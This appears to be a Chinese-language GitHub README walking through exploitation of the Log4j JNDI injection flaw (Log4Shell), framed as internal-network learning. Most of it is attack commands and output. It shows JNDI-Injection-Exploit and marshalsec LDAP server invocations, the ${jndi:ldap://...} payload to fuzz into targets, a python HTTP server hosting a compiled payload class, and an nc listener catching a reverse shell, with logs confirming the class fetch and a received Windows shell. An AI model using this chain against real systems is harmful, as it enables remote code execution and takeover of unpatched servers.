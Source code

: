 # 以下都是内网学习打的，仅供学习
## Apache-Log4j的几种复现方式
## 1、使用./tools/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar
vps IP 假设为 10.10.10.10
`java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc.exe" -A 10.10.10.10`
```
[root@VM_0_16_centos ~]# java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "ping xx.24b5010c.dns.1433.eu.org" -A 10.10.10.10
[ADDRESS] >> 10.10.10.10
[COMMAND] >> ping xx.24b5010c.dns.1433.eu.org
----------------------------JNDI Links---------------------------- 
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://10.10.10.10:1099/1ovanh
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://10.10.10.10:1099/kavkt9
ldap://10.10.10.10:1389/kavkt9
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://10.10.10.10:1099/m5m8wo
ldap://10.10.10.10:1389/m5m8wo
```
然后fuzz `${jndi:ldap://10.10.10.10:1389/kavkt9}` 或者 `${jndi:ldap://10.10.10.10:1389/m5m8wo} `
![](img/2.png)

## 2、反弹shell
试了几个windows的，都是无回显，执行命令磕磕绊绊，最后还是直接反弹了原生shell
我测试了一台windows，使用./src/ExecTemplateJDK7.java 修改里面的host和port为要反弹的地址(如果是linux，使用./src/linux.java就行了,其实就是cmd.exe改成/bin/bash)

然后javac ExecTemplateJDK7.java,生成ExecTemplateJDK7.class


然后在vps上开http服务`python3 -m http.server 9092`,以及监听端口`nc -l 9091`


然后同样在vps上 `java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://10.10.10.10:9092/#ExecTemplateJDK7 1389`


最后fuzz ${jndi:ldap://10.10.10.10:1389}
![](img/2.png)

效果是jdni上收到请求消息
`Send LDAP reference result for dd redirecting to http://10.10.10.10:9092/ExecTemplateJDK7.class`


httpserver请求 `[10/Dec/2021 10:04:39] "GET /ExecTemplateJDK7.class HTTP/1.1" 200`


nc收到windows-shell
![](img/1.png)

# 以上都是内网学习打的，仅供学习